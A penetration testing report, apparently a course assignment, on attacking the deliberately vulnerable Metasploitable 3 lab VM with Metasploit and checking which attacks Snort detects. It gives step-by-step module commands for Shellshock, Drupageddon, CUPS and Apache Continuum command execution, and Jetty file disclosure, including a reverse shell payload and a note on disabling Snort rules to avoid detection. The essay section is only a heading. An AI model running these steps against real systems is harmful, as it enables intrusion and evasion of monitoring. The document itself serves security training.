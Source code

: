 # Penetration Testing Report on Metasploitable 3 (Linux)

## Introduction

This report details the penetration testing performed on the [Metasploitable 3 (Linux)](https://github.com/rapid7/metasploitable3) operating system using [Metasploit](https://www.metasploit.com/). Five different attacks were carried out, with three being identifiable by the [Snort](https://www.snort.org/) Intrusion Detection System (IDS) and two going undetected. The report provides a brief description of each attack, including the targeted component, execution method, and Snort output for detected attacks. Additionally, it includes an essay on the benefits and shortcomings of using intrusion detection systems.



## IDENTIFIED ATTACK 1: Apache HTTP Server RCE

### Description

**Component Targeted:** Shellshock Bash Vulnerability / Apache web server with CGI scripts

**Execution Method:** This attack exploits the Shellshock vulnerability, a flaw in how the Bash shell handles external environment variables. It targets CGI scripts in the Apache web server by setting the HTTP_USER_AGENT environment variable to a malicious function definition. [CVE-2014-6271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271)

**Steps in Metasploit:**
1. Select the exploit: `use exploit/multi/http/apache_mod_cgi_bash_env_exec`
2. Set the target IP: `set RHOST <target_ip>`
3. Set the target URI: `set TARGETURI /cgi-bin/hello_world.sh`
4. Execute the attack: `run`

**Snort Output:**
```
[**] [1:2025869:2] ET WEB_SPECIFIC_APPS ELF file magic plain Inbound Web Servers Likely Command Execution 12 [**] [Classification: Attempted User Privilege Gain]          [Priority: 1] {TCP} 172.28.128.1:56642 -> 172.28.128.3:80      
[**] [1:1336:5] WEB-ATTACKS chmod command attempt [**]                                                            [Classification: Web Application Attack]                 [Priority: 1] {TCP} 172.28.128.1:56642 -> 172.28.128.3:80                                                                            
[**] [1:100000122:1] COMMUNITY WEB-MISC mod_jrun overflow attempt [**]                                            [Classification: Web Application Attack]                 [Priority: 1] {TCP} 172.28.128.1:56642 -> 172.28.128.3:80                                                            
[**] [1:2022028:1] ET WEB_SERVER Possible CVE-2014-6271 Attempt [**]                                              [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 172.28.128.1:56643 -> 172.28.128.3:80 
```



## IDENTIFIED ATTACK 2: Drupal Drupageddon

### Description

**Component Targeted:** Drupal Web Application

**Execution Method:** This attack exploits a remote code execution vulnerability in Drupal (versions 7.0 to 7.31), commonly referred to as "Drupageddon". The vulnerability allows an attacker to execute arbitrary PHP code on the web server by exploiting an SQL injection vulnerability in the Drupal HTTP Parameter Key/Value handling. [CVE-2014-3704](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3704)

**Steps in Metasploit:**
1. Select the exploit: `use exploit/multi/http/drupal_drupageddon`
2. Set the target IP: `set RHOST <target_ip>`
3. Set the target URI: `set TARGETURI /drupal/`
4. Execute the attack: `run`

**Snort Output:**
```
[**] [1:2012887:2] ET POLICY HTTP POST contains pass= in cleartext [**] [Classification: Potential Corporate Privacy Violation] [Priority: 1] {TCP} 172.28.128.1:58460 -> 172.28.128.3:80 
```



## IDENTIFIED ATTACK 3: CUPS Filter Bash Environment Variable Code Injection (Shellshock)

### Description

**Component Targeted:** CUPS (Common UNIX Printing System)

**Execution Method:** This attack exploits a remote code execution vulnerability in the CUPS printing system by leveraging the Shellshock vulnerability in Bash. The vulnerability allows an attacker to inject and execute arbitrary code via manipulated environment variables passed to the CUPS filters.

**Preparation:** Before performing the attack, ensure the `vagrant` user is added to the `lpadmin` group on the Metasploitable box, as the exploit requires elevated privileges to execute properly.
```
usermod -a -G lpadmin vagrant
```

**Steps in Metasploit:**
1. Select the exploit: `use exploit/multi/http/cups_bash_env_exec`
2. Set the target IP: `set RHOST <target_ip>`
3. Set the CUPS username: `set HttpUsername vagrant`
4. Set the CUPS password: `set HttpPassword vagrant`
5. Set the payload to use a reverse TCP connection: `set PAYLOAD cmd/unix/reverse_ruby`
6. Configure the local host IP for the payload: `set LHOST  <listen_ip>`
7. Execute the attack: `run`

**Snort Output:**
```
[**] [1:1768:7] WEB-IIS header field buffer overflow attempt [**] [Classification: Web Application Attack] [Priority: 1] {TCP} 172.28.128.1:58859 -> 172.28.128.3:631                                                                
[**] [1:1768:7] WEB-IIS header field buffer overflow attempt [**] [Classification: Web Application Attack] [Priority: 1] {TCP} 172.28.128.1:58862 -> 172.28.128.3:631                                                                
[**] [1:1768:7] WEB-IIS header field buffer overflow attempt [**] [Classification: Web Application Attack] [Priority: 1] {TCP} 172.28.128.1:58864 -> 172.28.128.3:631                                                                
[**] [1:1768:7] WEB-IIS header field buffer overflow attempt [**] [Classification: Web Application Attack] [Priority: 1] {TCP} 172.28.128.1:58864 -> 172.28.128.3:631 
```



## MISSED ATTACK 1: Apache Continuum Arbitrary Command Execution

### Description

**Component Targeted:** Apache Continuum

**Execution Method:** By injecting a command into the installation.varValue POST parameter to /continuum/saveInstallation.action, a shell can be spawned.

**Steps in Metasploit:**
1. Select the exploit: `use exploit/linux/http/apache_continuum_cmd_exec`
2. Set the target IP: `set RHOSTS <target_ip>`
3. Execute the attack: `run`

**Reason for Missing:** Snort missed this attack because `rules/policy-other.rules` was not in use. (as per the [snort.conf](https://cybersecuritybase.mooc.fi/19231e84dafffa079550777b17d8fb3e/snort.conf) provided by the course)
Only thing Snort notice was:
```
[**] [1:620:10] SCAN Proxy Port 8080 attempt [**] [Classification: Attempted Information Leak] [Priority: 2] {TCP} 172.28.128.1:58585 -> 172.28.128.3:8080
```
which is a port scan notification (same you would get for using `nmap`) and by the instructions of the course __"[...] does *not* count as an attack"__.


## MISSED ATTACK 2: Jetty WEB-INF File Disclosure

### Description

**Component Targeted:** Jetty

**Execution Method:** Jetty suffers from a vulnerability where certain encoded URIs and ambiguous paths can access protected files in the WEB-INF folder. 

**Steps in Metasploit:**
1. Select the auxiliary module: `use gather/jetty_web_inf_disclosure`
2. Set the target IP: `set RHOSTS <target_ip>`
3. Execute the attack: `run`

**Reason for Missing:** Snort detected the gathering attempt with the following:
```
[**] [1:2033460:2] ET WEB_SPECIFIC_APPS Jetty WEB-INF Information Leak Attempt Inbound (CVE-2021-34429) [**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 172.28.128.1:54890 -> 172.28.128.3:8080
[**] [1:1826:7] WEB-MISC WEB-INF access [**] [Classification: Access to a Potentially Vulnerable Web Application] [Priority: 2] {TCP} 172.28.128.1:54890 -> 172.28.128.3:8080
```
As I was unable to find another attack that Snort could not identify I had to disable the following rules:
```
/rules/emerging-web_specific_apps.rules
/rules/web-misc.rules
```
After that, Snort was no longer able to identify or detect the exploit.

## ESSAY: The benefits and shortcomings of using intrusion detection systems
